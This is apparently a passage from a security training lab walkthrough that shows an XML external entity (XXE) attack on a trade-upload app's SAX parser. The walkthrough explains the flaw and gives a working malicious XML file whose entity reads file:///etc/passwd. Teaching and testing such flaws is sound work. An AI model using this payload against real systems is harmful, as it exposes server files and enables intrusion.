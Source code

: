             <units>5000</units>
            <price>45</price>
            <name>Amazon Inc</name>
            <stock>AMZN</stock>
            <trader>
                <name>C.K Frode</name>
            </trader>
            <units>4500</units>
            <price>195</price>
        </metadata>
    </trades>

4. XML File Upload
You should now have a copy of the sample trade data file saved locally as net_trade.xml in your downloads directory. 

As Alice, locate the net_trade.xml file and upload it using the "Upload Trades" feature.
Click the Upload button to continue

5. Application Output

As expected, the XML file net_trade.xml is processed by the server side's SAX parser logic. The business logic further presents the user with the list of trades that will be submitted for trade execution. 

6. Malicious XXE Input

An XXE attack works by taking advantage of a feature in XML, namely XML eXternal Entities (XXE) that allows external XML resources to be loaded within an XML document.

By submitting an XML file that defines an external entity with a file:// URI, an attacker can effectively trick the application's SAX parser into reading the contents of arbitrary file(s) that reside on the server-side filesystem. 

- As Alice click Play to modify the existing net_trade.xml file with our malicious input.
- Then Click Save to continue.

7. Malicious XML File

    <!DOCTYPE foo [<!ELEMENT foo ANY >
    <!ENTITY bar SYSTEM "file:///etc/passwd" >]>
    <trades>
        <metadata>
            <name>Apple Inc</name>
            <stock>APPL</stock>
            <trader>
                <foo>&bar;</foo>
                <name>C.K Frode</name>
            </trader>
            <units>1500</units>
            <price>106</price>
            <name>Microsoft Corp</name>
            <stock>MSFT</stock>
            <trader>
                <name>C.K Frode</name>
            </trader>
            <units>5000</units>
            <price>45</price>
            <name>Amazon Inc</name>
            <stock>AMZN</stock>
            <trader>
                <name>C.K Frode</name>
            </trader>
            <units>4500</units>
            <price>195</price>
        </metadata>
    </trades>

